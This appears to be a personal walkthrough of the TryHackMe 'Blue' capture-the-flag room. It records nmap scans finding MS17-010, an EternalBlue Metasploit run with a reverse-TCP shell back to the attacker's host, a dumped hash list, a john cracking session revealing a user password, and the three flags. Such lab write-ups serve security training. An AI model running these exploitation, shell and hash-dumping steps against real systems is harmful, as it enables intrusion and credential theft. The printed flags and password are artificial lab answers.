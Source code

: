 ```yaml
---
tags:
  - windows
  - tryhackme
---
```

Got IP target 10.10.55.49

# Recon
nmap -p- 10.10.55.49 -oN blue-nmap-ports

Nmap scan report for 10.10.55.49
Host is up (0.054s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49159/tcp open  unknown
# Nmap 7.94 scan initiated Sun Oct 29 03:58:57 2023 as: 
nmap -sC -sV --script vuln -p135,139,445,3389,49152,49153,49154,49158,49159 --open -oN blue-nmap-deep1 10.10.55.49
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.55.49
Host is up (0.055s latency).

PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-ccs-injection: No reply from server (TIMEOUT)
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done at Sun Oct 29 04:02:00 2023 -- 1 IP address (1 host up) scanned in 183.82 seconds

# Weaponization
Exploit payload of ms17-010

msfconsole

msf6 > search ms17-010


Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

Chose 0 for name Blue room
set payload windows/x64/shell/reverse_tcp
	Since it's windows
hostname -I
	10.18.39.123
set LHOST 10.18.39.123
set RHOST 10.10.55.49

Tip can just type `options` rather than `show options`
# Delivery

run
meterpreter > sysinfo
	Computer        : JON-PC
	OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
	Architecture    : x64
	System Language : en_US
	Domain          : WORKGROUP
	Logged On Users : 0
	Meterpreter     : x64/windows

# Priv Esc

_post/multi/manage/shell_to_meterpreter_

or just type session --upgrade 1 
	Or whatever number session you want to upgrade

meterpreter > getsystem 
	[-] Already running as SYSTEM

meterpreter > hashdump
	Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

`john --format=nt hashes --wordlist=/usr/share/wordlists/rockyou.txt`
	Using default input encoding: UTF-8
	Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
	Remaining 1 password hash
	Warning: no OpenMP support for this hash type, consider --fork=8
	Press 'q' or Ctrl-C to abort, almost any other key for status
	**alqfna22**         (Jon)     
	1g 0:00:00:01 DONE (2023-10-29 04:34) 0.6711g/s 6845Kp/s 6845Kc/s 6845KC/s alr19882006..alpusidi
	Warning: passwords printed above might not be all those cracked
	Use the "--show --format=NT" options to display all of the cracked passwords reliably
	Session completed.

# Flag 1 (Root Directory)
meterpreter > pwd
C:\Windows\system32
meterpreter > cd ../..
meterpreter > pwd
C:\
meterpreter > ls
	Listing: C:\
	Mode              Size   Type  Last modified              Name
	----              ----   ----  -------------              ----
	040777/rwxrwxrwx  0      dir   2018-12-13 03:13:36 +0000  $Recycle.Bin
	040777/rwxrwxrwx  0      dir   2009-07-14 05:08:56 +0000  Documents and Settings
	040777/rwxrwxrwx  0      dir   2009-07-14 03:20:08 +0000  PerfLogs
	040555/r-xr-xr-x  4096   dir   2019-03-17 22:22:01 +0000  Program Files
	040555/r-xr-xr-x  4096   dir   2019-03-17 22:28:38 +0000  Program Files (x86)
	040777/rwxrwxrwx  4096   dir   2019-03-17 22:35:57 +0000  ProgramData
	040777/rwxrwxrwx  0      dir   2018-12-13 03:13:22 +0000  Recovery
	040777/rwxrwxrwx  4096   dir   2023-10-29 04:20:39 +0000  System Volume Information
	040555/r-xr-xr-x  4096   dir   2018-12-13 03:13:28 +0000  Users
	040777/rwxrwxrwx  16384  dir   2019-03-17 22:36:30 +0000  Windows
	100666/rw-rw-rw-  24     fil   2019-03-17 19:27:21 +0000  flag1.txt
	000000/---------  0      fif   1970-01-01 00:00:00 +0000  hiberfil.sys
	000000/---------  0      fif   1970-01-01 00:00:00 +0000  pagefile.sys
meterpreter > cat flag1.txt 
`flag{access_the_machine}`

# Flag 2 (Local Passwords Stored)
meterpreter > pwd
C:\Windows\System32\config
meterpreter > cat flag2.txt 
flag{sam_database_elevated_access}

# Flag 3 (Admin Data Store Area)
meterpreter > pwd
C:\Users\Jon\Documents
meterpreter > cat flag3.txt 
flag{admin_documents_can_be_valuable}